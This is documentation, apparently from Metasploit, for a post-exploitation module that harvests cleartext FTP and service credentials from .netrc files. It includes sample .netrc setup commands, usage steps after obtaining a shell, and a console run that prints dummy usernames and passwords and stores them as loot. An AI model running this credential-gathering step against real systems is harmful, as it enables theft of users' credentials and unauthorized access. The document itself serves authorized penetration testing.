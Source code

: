 ## Vulnerable Application

Post Module to obtain credentials saved for FTP and other services
in `.netrc`

This file is kept in user's home directories to configure various services,
such as curl, but contains cleartext credentials.

### Example netrc file

Example documentation can be found in the curl docs on netrc:
https://everything.curl.dev/usingcurl/netrc

```
echo "machine example.com login daniel password qwerty" > ~/.netrc
echo "machine example2.com" >> ~/.netrc
echo "login daniel2" >> ~/.netrc
echo "password qwerty2" >> ~/.netrc
```

## Verification Steps

1. Start msfconsole
1. Get a shell on a system
1. Do: `use post/multi/gather/netrc_creds`
1. Do: `set session [session]`
1. Do: `run`
1. If any `.netrc` files exist with credentials, they will be stored and read

## Options

## Scenarios

### Ubuntu 22.04.01

```
msf6 auxiliary(scanner/ssh/ssh_login) > sessions -l

Active sessions
===============

  Id  Name  Type         Information   Connection
  --  ----  ----         -----------   ----------
  1         shell linux  SSH ubuntu @  2.2.2.2:39857 -> 1.1.1.1:22 (1.1.1.1)

msf6 auxiliary(scanner/ssh/ssh_login) > use post/multi/gather/netrc_creds
msf6 post(multi/gather/netrc_creds) > set session 1
session => 1
msf6 post(multi/gather/netrc_creds) > run

[*] Reading: /bin/.netrc
[*] Reading: /dev/.netrc
[*] Reading: /home/syslog/.netrc
[*] Reading: /home/ubuntu/.netrc
[*] Reading: /nonexistent/.netrc
[*] Reading: /root/.netrc
[*] Reading: /run/ircd/.netrc
[*] Reading: /run/sshd/.netrc
[*] Reading: /run/systemd/.netrc
[*] Reading: /run/uuidd/.netrc
[*] Reading: /usr/games/.netrc
[*] Reading: /usr/sbin/.netrc
[*] Reading: /var/backups/.netrc
[*] Reading: /var/cache/man/.netrc
[*] Reading: /var/cache/pollinate/.netrc
[*] Reading: /var/lib/gnats/.netrc
[*] Reading: /var/lib/landscape/.netrc
[*] Reading: /var/lib/tpm/.netrc
[*] Reading: /var/lib/usbmux/.netrc
[*] Reading: /var/list/.netrc
[*] Reading: /var/mail/.netrc
[*] Reading: /var/snap/lxd/common/lxd/.netrc
[*] Reading: /var/spool/lpd/.netrc
[*] Reading: /var/spool/news/.netrc
[*] Reading: /var/spool/uucp/.netrc
[*] Reading: /var/www/.netrc

.netrc credentials
==================

 Username  Password  Server
 --------  --------  ------
 daniel    qwerty    example.com
 daniel2   qwerty2   example2.com

[*] Credentials stored in: /root/.msf4/loot/20221008103946_default_1.1.1.1_netrc.creds_551386.txt
[*] Post module execution completed
```
